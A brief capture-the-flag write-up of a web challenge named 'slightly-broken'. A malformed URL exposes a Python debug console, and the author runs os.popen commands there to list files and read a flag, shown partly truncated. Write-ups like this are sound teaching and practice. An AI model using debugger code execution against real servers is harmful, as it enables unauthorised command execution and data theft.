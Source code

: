 #  slightly-broken

Description:
```
For this one, only contact admins for socialising with them. Do not contact them for errors at this challenge.
```

The landing page gets us the following message:
```
Now go get the flag: Enjoy!
```

And a hyperlink to 'http://34.159.27.166:31044/getflag?cmd&a&b&c&d&e&f&g&h&i&j&k&l&m%n#d'

![debug_page](images/img_00000.png)

We can see that we are dealing with a python server. We can try to execute code via the debugger.

```python
>>> import os;output = os.popen("ls").read();print(output)
app.py
flag.txt

```

And it works! We can now read the flag.
```python
>>> import os;output = os.popen("cat flag.txt").read();print(output)
ECSC{672e1423c22222e4e4c87e27a443b4b72c298....
```